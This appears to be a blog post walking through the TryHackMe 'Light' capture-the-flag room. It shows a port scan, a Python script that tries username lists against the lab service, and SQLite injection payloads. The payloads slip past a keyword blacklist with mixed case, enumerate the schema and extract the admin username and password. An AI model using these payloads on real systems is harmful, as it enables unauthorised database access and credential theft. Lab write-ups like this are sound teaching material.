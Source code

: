 ```yaml
---
layout: post
title: "TryHackMe Light Walkthrough - SQL Injection Challenge"
description: "Complete step-by-step walkthrough for TryHackMe's Light room featuring SQLite injection techniques, database enumeration, and admin credential extraction. Perfect for beginners learning SQL injection fundamentals."
date: 2025-08-15 10:00:00 +0000
categories: [Cybersecurity, Writeups, Tryhackme]
tags: [tryhackme, thm, sql-injection, sqlite, database, enumeration, ctf, beginner-friendly]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838
sitemap:
  priority: 0.8
  changefreq: monthly
---
```



# TryHackMe Light Walkthrough
Link to the Room : https://tryhackme.com/room/lightroom

```
I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE-IP 1337`  
You can use the username `smokey` in order to get started.
```
Lets start the machine and wait for 2-3 minutes, let the machine get fully functional.

`Q1 What is the admin username?`

As usual running a full port scan for identifying potential entry points.
`nmap -p- -T4 MACHINE-IP -vv`
![[Pasted image 20250816001828.png]]

Meanwhile lets try connecting to the port 1337
`nc MACHINE-IP 1337`
Lets try the username provided `smokey`
![[Pasted image 20250816002133.png]]
Alright!

So, I guess we can try brute-forcing a wordlist of usernames, but we cannot use ffuf...
So,
I took this script from ChatGPT, and modified it little to make it work.
```python
import socket

target_ip = "10.201.15.128"  # change this
target_port = 1337
wordlist = "SecLists/Usernames/cirt-default-usernames.txt"  # your username list

with open(wordlist, "r") as f:
    usernames = [u.strip() for u in f if u.strip()]

for user in usernames:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))

    # Receive initial banner / prompt
    banner = s.recv(1024).decode()
    print(banner.strip())

    u = s.recv(1024).decode()
    print(u.strip())

    # Send username
    s.send((user + "\n").encode())

    # Receive response
    response = s.recv(1024).decode()
    print(f"[{user}] -> {response.strip()}")

    s.close()

```

I tried few wordlists but didn't find anything.

Got back to the nmap scan and LOL!, its gonna take forever so its not the way in for sure!
![[Pasted image 20250816003201.png]]

What else can we do? Found no `http` pages, where can we even use the credentials we've got earlier?
Lets try to change the approach.

Lets try putting in some random input, my mind is getting a little idea of where it is going _maybe_.
![[Pasted image 20250816003925.png]]
Its more of an Injection vulnerability I see
Its been a long I have not dealt with a SQLi, now quickly digging through my notes for revising required methods.

From the responses below
![[Pasted image 20250816004841.png]]
I can imagine of a SQL query
`select pass from users where user='<input>' limit 30`

Now we'll try creating some SQL payloads based on the payloads I already have in my notes.
`'union select 1'`
![[Pasted image 20250816005530.png]]
Okhayy!
They might be blocking some keywords most probably as an easy way out. 
Here might be a logic error lets try `'UnIOn sElecT 1'`
![[Pasted image 20250816005739.png]]
as a developer I would also blacklist these keywords as its an easy fix(not a fix really). Laziness is a problem frr.
I love these kinda logic based errors!

Lets start enumerating.
`'Union Select @@version'`
Didn't work maybe some other database!

Refer this https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration

This one worked
`'Union Select sqlite_version()'`
Its sqlite database version: 3.31.1
![[Pasted image 20250816010644.png]]

Using the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) Repository for reference!

`'Union Select sql from sqlite_master'`
![[Pasted image 20250816010906.png]]

Now we know the table name, column names.
Enough to craft useful payloads.

> You can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration)and suitable LLM for crafting payloads

`'Union Select username from admintable where id='1`
![[Pasted image 20250816011619.png]]
If needed we could've dumped all but in this case we don't need the whole database.

![[Pasted image 20250816011809.png]]

`Q2 What is the password to the username mentioned in question 1?`
`'Union Select password from admintable where username='<admin-user>`
![[Pasted image 20250816012001.png]]

![[Pasted image 20250816012439.png]]

`Q3 What is the flag?`
Till now you could've figured it out, we have already got the id for the user flag, so most probably its password will be the final flag.
Little modifications to the previous payload will get you the flag.

![[Pasted image 20250816012516.png]]